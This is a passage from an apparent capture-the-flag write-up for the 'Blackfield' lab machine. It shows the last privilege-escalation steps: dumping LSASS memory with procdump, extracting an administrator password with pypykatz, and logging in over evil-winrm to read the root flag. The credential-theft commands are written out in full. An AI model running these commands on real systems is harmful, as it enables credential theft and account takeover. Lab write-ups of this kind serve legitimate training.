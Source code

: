 The files that I copied before from the SMB share contains a directory, tools/sysinternals. There is a systool, procdump.exe. With this tool I can dump lsass.exe.

I upload the tool with evil-winrm and ran it like this:

```
.\procdump.exe -ma lsass.exe C:\Users\svc_backup\Documents\lsass.dmp
```

![](Pictures/Blackfield/procdump.png)

I got an successful dump and downloaded it to my Kali machine. Andthen I ran pypykatz to get something useful out of it.

```
Pypykatz lsa minidump lsass.dmp
```

![](Pictures/Blackfield/pypykatz1.png)

The output gave much data but there was the administrators NT hashand a cleartext password: 

```
###_ADM1N_3920_###.
```

### [](#header-3)Evil-winRM - root.txt flag

I was now able to login as the administrator with evil-winrm and read the root.txt flag.

```
evil-winrm -u administrator -p '###_ADM1N_3920_###' -i 10.10.10.192
```

